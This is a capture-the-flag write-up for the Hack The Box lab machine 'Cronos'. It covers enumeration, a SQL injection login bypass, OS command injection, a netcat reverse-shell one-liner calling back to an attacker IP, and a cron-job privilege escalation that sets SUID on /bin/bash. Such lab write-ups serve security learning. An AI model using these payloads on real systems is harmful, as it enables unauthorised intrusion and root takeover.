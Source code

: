 # Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques | Nmap, Gobuster, nslookup, dig, SQL Injection, Command Injection, Cronjobs       |

## Method
Enumerating the services and virtual hosts for a login page, exploiting it using SQL injection and getting access with OS Command Injection.  
Escalating the privileges by abusing a cron job.  

## Enumeration


#### Nmap
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677718-6b630f54-92d5-4b90-81fb-10b4ee89e47c.png">
</p>

Open Ports:  
22 - SSH  
53 - DNS  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677719-8e4f9dfc-7820-45e4-94e6-8c32a582ec1c.png">
</p>

The website - Port 80  
<img src="https://user-images.githubusercontent.com/21021400/145677720-3e99be85-6762-4023-b68f-4ea99ef70811.png">
<p align="center">
</p>

Looking for virtual hosts and using the machine itself as the DNS server  
```
nslookup 10.10.10.13 10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677721-c549c411-d118-4ee8-b20f-8e09f00ece02.png">
</p>

Domain found: cronos.htb  

Looking for virtual hosts related to cronos.htb  
```
dig axfr cronos.htb @10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677722-ed52b9d2-3f44-4209-914e-f554938b985e.png">
</p>

Virtual hosts found:  
cronos.htb  
ns1.cronos.htb  
admin.cronos.htb  

Added them to /etc/hosts  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677724-0e8d0677-de27-431c-b431-a4c2543bc3ef.png">
</p>

cronos.htb  
The main website, nothing useful found.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677725-62437be2-326c-4156-a4f1-056cf65a3d0f.png">
</p>

ns1.cronos.htb  
The same apache server page we reached earlier.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677726-669d2693-4015-4bd3-9fd1-e5db1f99600d.png">
</p>

admin.cronos.htb  
A login page.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677727-1dd27a73-4488-4ab9-84df-3e66d18d86fa.png">
</p>

## Exploitation

Tried admin:admin and few more default credentials - all failed  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677728-c38155e2-6f05-4b32-a689-73826a4275f3.png">
</p>

Source code also didn't provide useful information.  

#### SQL Injection

Tried SQL injection  
```
' or 1==1-- -
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677729-957cac37-65da-4faf-b628-2a22bfa7f000.png">
</p>

And we're in.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677730-8ba44d89-b9d2-40e3-bc3b-af0c3d40a76e.png">
</p>

Pinged myself and captured the traffic with tcpdump  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677731-a0421405-d315-4c4d-83bb-358db05712b7.png">
</p>

#### OS Command Injection

Tried OS command injection  
```
;whoami
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677732-e56b199b-bef1-426b-8862-a9fbebf28565.png">
</p>

The user running the commands is www-data.  

Let's get a reverse shell  
```
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677733-3136df78-09b4-41a1-838e-d81c4ed01a9f.png">
</p>

## Privilege Escalation (www-data -> root)

Users on the machine:  
www-data  
noulis  
root  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677734-876ef1e6-3b9a-4935-96b1-33269212394d.png">
</p>

www-data's groups  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677735-524fc622-ce17-478c-bc2c-a058ed843151.png">
</p>

SUID files  
```
find / -perm -4000 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677736-dd9b77d6-dd8e-433b-b7cf-5b1bf67f275c.png">
</p>

sudo permissions  
```
sudo -l
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677737-7c8f3876-147c-4fd3-810b-43f038b7a8d6.png">
</p>

Capabilities  
```
getcap -r / 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677739-1f478587-07f6-4cef-85a2-c402e4577402.png">
</p>

Checking noulis' home directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677740-55b963a1-2c6f-47e9-8f5d-e721e09f6b2f.png">
</p>

Checking /var/www directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677742-542d0ded-42b9-4f1a-bdef-4ee2150eebce.png">
</p>

Laravel is installed in /var/www, checking config files in laravel/.env  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677743-be5d86da-253d-47fb-8d83-36e4dd8a01e7.png">
</p>

So far, all methods tried above failed to escalate the privileges.  

Checking crontab
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677744-5453e29a-9bfa-41d2-a291-59c471a12b35.png">
</p>

There is a cron job running by root every minute.  
executing with php the /var/www/laravel/artisan file.  

Checking the content of the artisan file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677745-a124ded3-b202-4f6b-9522-d1c1bd6384a0.png">
</p>

We can write to that file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677746-4671096c-0975-4a67-83cf-ea1b57a76929.png">
</p>

Let's replace the content of the file with the following:  
```
<?php
system('chmod +s /bin/bash');
?>
```

By executing the command:  
```
echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677747-c67e0899-65b3-4edc-9aa5-1b3c133f36a9.png">
</p>

Once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.  

After a minute, checking the /bin/bash permissions:  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677751-26efb128-2f8d-4e92-a4fc-9ff0bc959494.png">
</p>

Executing a root shell  
```
bash -p
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677752-17ae7c2b-99f1-43e9-93ec-6ca7e13fbad5.png">
</p>

and we're root.
